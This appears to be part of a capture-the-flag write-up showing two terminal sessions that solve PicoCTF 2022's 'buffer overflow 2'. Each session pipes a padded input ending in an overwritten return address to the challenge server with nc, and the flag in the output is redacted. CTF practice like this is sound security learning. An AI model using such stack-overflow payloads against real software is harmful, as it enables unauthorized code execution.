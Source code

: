 ```console
(Using Python 3)

shinris3n@bokken:~/sec/CTFs/PicoCTF2022/buffer overflow 2$ (python3 -c "import sys; sys.stdout.buffer.write(b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08')"; cat -) | nc saturn.picoctf.net 60968
Please enter your string: 

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{redacted_flag_try_it_yourself_at_the_picoGym!}
```

```console
(Using printf)

shinris3n@bokken:~/sec/CTFs/PicoCTF2022/buffer overflow 2$ (printf 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08'; cat -) | nc saturn.picoctf.net 58429
Please enter your string: 

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{redacted_flag_try_it_yourself_at_the_picoGym!}
```
